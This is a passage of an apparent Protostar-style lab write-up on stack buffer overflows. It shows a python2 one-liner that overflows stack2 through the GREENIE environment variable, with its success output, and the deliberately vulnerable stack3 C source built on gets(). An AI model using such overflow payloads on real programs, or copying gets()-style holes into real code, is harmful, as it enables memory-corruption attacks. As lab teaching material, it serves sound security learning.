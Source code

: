 ```
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Instead of reading buffer from keyboard, this level require `GREENIE` environment variable. We use `export` command in Linux

```
➜  GREENIE=`python2 -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"'`
➜  export GREENIE
➜  ./stack2
you have correctly modified the variable
```

## STACK 3

```
/* stack3.c */
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

In the end of this piece of code, the program call the function which has address stored in `fp` 's value. So, how to force the program to call `win` function ? The first thought is overwrite `win` 's address to `fp` value.

But, what is `win`'s address ?
